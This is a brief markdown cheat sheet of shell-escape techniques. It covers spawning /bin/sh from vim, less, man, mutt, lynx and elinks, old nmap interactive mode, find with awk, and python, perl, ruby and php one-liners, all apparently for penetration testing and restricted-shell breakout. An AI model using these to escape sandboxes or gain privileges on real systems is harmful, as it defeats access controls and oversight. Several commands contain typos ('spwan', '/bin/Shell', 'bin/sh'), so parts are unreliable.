 # shell-escaping

## editors 

### vim 

```
:!/bin/sh
```

```
:set shell=/bin/sh
:shell
```

### ed

```
!'/bin/sh'
```

### ne

```
Load Prefs
```

### nano

```
CTRL+R
CTRL+X
reset; bash 1>&0 2>&0
```

## Pager


### More/Less

Open a file that is larger then your terminal. 

Run `!'sh'`

### man

Run `!'sh'`

This to works sinse man uses more/less.

### pinfo

press `!` followed by the command you want to run.

### Console Browsers

pagers can also be used a editors in console browsers.

#### links

`FILE > OS Shell`

#### lynx

open webpage.  
press `o`  
configure vim as editor

or

```
lynx --editor=/usr/bin/vim www.google.com
```

#### elinks

```
export EDITOR=/usr/bin/vim
```

open a site with a textbox. 
Press `ENTER` and then `F4`. 
elinks will use vim.

### mutt

open mutt  
press `!`  
enter `/bin/Shell`

### find

when ever it finds udp,xml it will cd to root and run ls.

`find . -name udp.xml -exec awk 'BEGIN {system("cd /root; ls")}' \;`

### nmap

before version r17131

```
nmap --interactive
!sh
```

## Programming Techniques

### awk

`awk 'BEGIN {system("/bin/sh")}'`

### expect

```
Expect
spwan sh
sh
```

### python

`python -c 'import os; os.system("/bin/sh");'`

### ruby

```
irb
exec 'bin/sh'
```

### perl

`perl -e 'system("sh -i")'`  
`perl -e 'exec("sh -i")'`

### php

```
php -a
exec("sh -i");
```
